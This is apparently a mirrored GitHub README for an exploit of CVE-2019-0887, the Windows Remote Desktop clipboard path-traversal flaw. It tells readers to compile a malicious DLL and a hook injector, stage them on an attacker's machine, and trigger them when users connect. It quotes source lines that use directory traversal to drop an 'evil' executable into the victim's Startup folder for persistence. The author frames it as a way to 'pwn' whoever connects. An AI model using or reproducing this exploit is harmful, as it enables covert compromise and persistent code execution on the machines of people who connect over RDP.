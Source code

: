 # CVE-2019-0887

exp for CVE-2019-0887

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/t43Wiu6](https://github.com/t43Wiu6) |
| Url      | [https://github.com/t43Wiu6/CVE-2019-0887](https://github.com/t43Wiu6/CVE-2019-0887)                                               |
| Stars    | 15                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2019-0887

Compile the CVE-2019-0887, rename to `winhlp.dll`

Compile the Install_Hook, rename to `hook.exe`

> be careful, they must be compile with x64

Put then into the evil system just like that
```bash
c:\windows\hook.exe
c:\windows\winhlp.dll

c:\windows\winhlp64.exe # something evil 
```

if somebody want to change the path, there is the point
```bash
# CVE-2019-0887/dllmain.cpp
WCHAR  evalfile[] = { L"C:\\windows\\winhlp64.exe" };
WCHAR  efile[] = { L"C:\\windows\\system32\\..\\..\\..\\..\\..\\../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/winhlp32.exe" };

# Install_Hook/ConsoleApplication.cpp
LoadDll(pid, "C:\\Windows\\winhlp.dll");
```

Maybe use taskschd.msc to create a Task Plan, set a Trigger "On connection to user session" and set the filepath of hook.exe.

Waiting some guys connect to my evil system, copy something, and pwn...

> Tips: Why not use DLL hijack?



## Get the content

```
git clone https://github.com/t43Wiu6/CVE-2019-0887
cd CVE-2019-0887
```

{% embed url="https://github.com/t43Wiu6/CVE-2019-0887" %}

<figure><img src="https://avatars.githubusercontent.com/u/40162856?v=4" alt=""><figcaption><p>t43Wiu6</p></figcaption></figure>
